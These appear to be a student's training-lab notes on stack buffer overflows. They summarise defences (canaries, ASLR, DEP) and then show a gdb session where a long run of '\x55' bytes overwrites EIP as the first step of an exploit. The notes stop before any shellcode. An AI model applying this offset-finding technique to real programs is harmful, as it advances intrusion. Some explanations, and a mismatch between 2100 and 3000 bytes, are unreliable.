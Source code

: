
## Prevention 
The best way it being conscious when programming to ensure such vulnabilities does not apear. 

### Canaries 
Are known values to the stack between the buffer and control data, and if the canary get overwritten and the system would check it during run time and is it overwritten it would result in crash. 

### Address space layout randomization 
This techquine is to hide  the relevant address to make it harder for a attack to figure out the target addresses in memory. Leaving us to guess the address location

### Data execution prevention (DEP)
DEP is a security feature in windows XP SP2, program are monitored during execution, and if the program attempts to call or access program code in a unauthorized way it get terminated. 

## Usage 

### Take control of EIP 
The goal is to find the offset of how many bytes is need to overwrite the EIP so we know how much space we have for our shellcode. 

We start by sending code though the program to see how many character we need to overwrite the EIP 

```
(gdb) run $(python -c "print '\x55' * 2100")
Starting program: /home/htb-student/leave_msg $(python -c "print '\x55' * 3000")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
(gdb) info registers
eax            0x0      0
ecx            0x15     21
edx            0x56558158       1448444248
ebx            0x55555555       1431655765
esp            0xffffc900       0xffffc900
ebp            0x55555555       0x55555555
esi            0xffffc940       -14016
edi            0x0      0
eip            0x55555555       0x55555555
eflags         0x10286  [ PF SF IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```
as you can see with 3000 \x55 we where able to overwrite it. 
